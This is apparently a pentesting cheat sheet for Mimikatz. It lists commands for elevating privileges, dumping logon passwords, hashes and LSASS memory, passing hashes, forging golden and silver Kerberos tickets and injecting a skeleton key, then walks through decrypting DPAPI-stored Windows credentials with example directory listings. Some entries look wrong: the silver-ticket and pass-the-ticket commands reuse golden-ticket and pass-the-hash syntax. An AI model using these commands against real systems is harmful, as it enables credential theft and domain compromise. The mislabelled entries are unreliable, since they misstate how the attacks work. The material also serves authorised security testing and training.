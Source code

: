 ```yaml
---
title: Dumping passwords with Mimikatz
description: Windows
---
```


## Using MimiKatz to Obtain Credentials

### Mimikatz Cheat Sheet

### Privilege Escalation

#### Get system

```shell
privilege::debug
token::elevate
```

### Credential Dumping

#### Dump credentials

```shell
sekurlsa::logonpasswords
```

#### Dump hashes

```shell
sekurlsa::hashes
```

### Pass-the-Hash

#### Pass-the-Hash (NTLM)

```shell
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash>
```

### Kerberos Ticket Attacks

#### List Kerberos tickets

```shell
kerberos::list
```

#### Export Kerberos tickets

```shell
kerberos::list /export
```

### Golden Ticket

#### Create Golden Ticket

```shell
kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>
```

### Silver Ticket

#### Create Silver Ticket

```shell
kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /ticket:<ticket_file>
```

### Skeleton Key

#### Inject Skeleton Key

```shell
misc::skeleton
```

### Windows Credentials Editor (WCE)

#### Inject WCE

```shell
misc::wce
```

### Pass-the-Ticket

#### Pass-the-Ticket (Kerberos)

```shell
sekurlsa::pth /user:<username> /domain:<domain> /rc4:<rc4_hash>
```

### Miscellaneous

#### Dump LSASS Memory

```shell
sekurlsa::minidump <output_file.dmp>
```

#### Exit Mimikatz

```shell
exit
```
### Enumerating Credential Directories

First, enumerate all directories inside `C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Credentials\`:

```cmd
C:\Users\USERNAME\AppData\Roaming\Microsoft\Credentials>dir /a /q
```

```
 Volume in drive C has no label.
 Volume Serial Number is C626-9388

 Directory of C:\Users\USERNAME\AppData\Roaming\Microsoft\Credentials

05/09/2023  03:14 PM    <DIR>          OFFICE\USERNAME          .
01/18/2024  09:34 AM    <DIR>          OFFICE\USERNAME          ..
05/09/2023  01:08 PM               358 OFFICE\USERNAME          18A1927A997A794B65E9849883AC3F3E
05/09/2023  03:03 PM               398 OFFICE\USERNAME          84F1CAEEBF466550F4967858F9353FB4
01/18/2024  11:53 AM               374 OFFICE\USERNAME          E76CCA3670CD9BB98DF79E0A8D176F1E
               3 File(s)          1,130 bytes
               2 Dir(s)   4,465,692,672 bytes free
```

### Decrypting Credentials with MimiKatz

Use MimiKatz to decrypt credentials from a specific file (e.g., `84F1CAEEBF466550F4967858F9353FB4`):

```cmd
mimikatz # dpapi::cred /in:C:\Users\USERNAME\AppData\Roaming\Microsoft\credentials\84F1CAEEBF466550F4967858F9353FB4
```

This command will provide a `guidMasterKey` for future use.

### Enumerating Protected Directories

Next, enumerate directories inside `C:\Users\USERNAME\appdata\roaming\microsoft\protect\`:

```cmd
C:\Users\USERNAME\AppData\Roaming\Microsoft\Protect>dir /a
```

```
 Directory of C:\Users\USERNAME\AppData\Roaming\Microsoft\Protect

05/04/2023  09:58 AM    <DIR>          .
01/18/2024  09:34 AM    <DIR>          ..
05/02/2023  03:13 PM                24 CREDHIST
01/17/2024  03:43 PM    <DIR>          S-1-5-21-1199398058-4196589450-691661856-1107
01/17/2024  04:06 PM                76 SYNCHIST
               2 File(s)            100 bytes
               3 Dir(s)   4,463,857,664 bytes free
```

Identify the SID associated with the directories, e.g., `S-1-5-21-1199398058-4196589450-691661856-1107`.

### Decrypting Master Key

Using MimiKatz, decrypt the master key associated with the `guidMasterKey` within the identified SID directory:

```cmd
mimikatz # dpapi::masterkey /in:C:\Users\USERNAME\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc
```

Extract the key provided in the output.

### Decrypting Credentials with Master Key

Finally, decrypt credentials using the obtained master key:

```cmd
mimikatz # dpapi::cred /in:C:\Users\USERNAME\AppData\Roaming\Microsoft\credentials\XXXXXX /masterkey::<key>
```

Replace `XXXXXX` with the appropriate credential file and `<key>` with the master key obtained earlier.

## References

- [Unofficial Guide to Mimikatz & Command Reference](https://adsecurity.org/?page_id=1821)
- [Skeleton Key](https://pentestlab.blog/2018/04/10/skeleton-key/)
- [Reversing Wdigest configuration in Windows Server 2012 R2 and Windows Server 2016 - 5TH DECEMBER 2017 - ACOUCH](https://www.adamcouch.co.uk/reversing-wdigest-configuration-in-windows-server-2012-r2-and-windows-server-2016/)
- [Dumping RDP Credentials - MAY 24, 2021](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)